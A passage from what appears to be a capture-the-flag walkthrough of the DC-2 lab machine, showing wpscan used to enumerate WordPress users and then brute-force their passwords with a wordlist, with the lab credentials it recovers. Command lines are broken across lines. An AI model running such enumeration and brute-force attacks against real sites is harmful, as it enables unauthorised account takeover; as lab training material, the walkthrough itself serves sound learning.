



6. Wpscan
Use wpscan to find more about Wordpress
a) With this command, we are telling the wpscan to enumerate everything about the site.
$ wpscan --url http
://
dc-2
Output:


We see 3 User entryies.
1. admin
2. jerry
3. tom
b) On Kali Machine create a file called “users.txt” with the users names.
$ gedit users.txt
c) Bruteforce attack against 5 users ( -U parameter our user list file directory) and ( -P parameter use password wordlists file )
$ wpscan --url http
://
dc-2 -U users.txt -P passwords.txt
Output:

We found two usernames and passwords.
• Username: jerry.
• Password: adipiscing.
• username: tom.
• password: parturient.
Index